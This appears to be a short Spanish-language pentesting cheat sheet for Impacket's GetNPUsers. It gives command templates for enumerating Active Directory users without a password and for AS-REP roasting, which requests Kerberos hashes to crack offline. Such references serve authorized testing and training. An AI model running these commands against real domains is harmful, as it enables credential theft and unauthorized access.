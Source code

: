 # mpacket-GetNPUsers Cheat Sheet

#### Ataque TGT usando un archivo de listado de posbles usuarios
```
impacket-GetNPUsers <DOMAIN>/ -no-pass -usersfile <FILE-USERS>
```

#### ASRepRoast Attack - con usuario y contraseña que tengamos
```
impacket-GetNPUsers -dc-ip <IP> -request -outputfile hashes.asreproast <DOMAIN>/<USER>
```

---

[:arrow_left: Regresar](https://github.com/m4lal0/cheatsheets)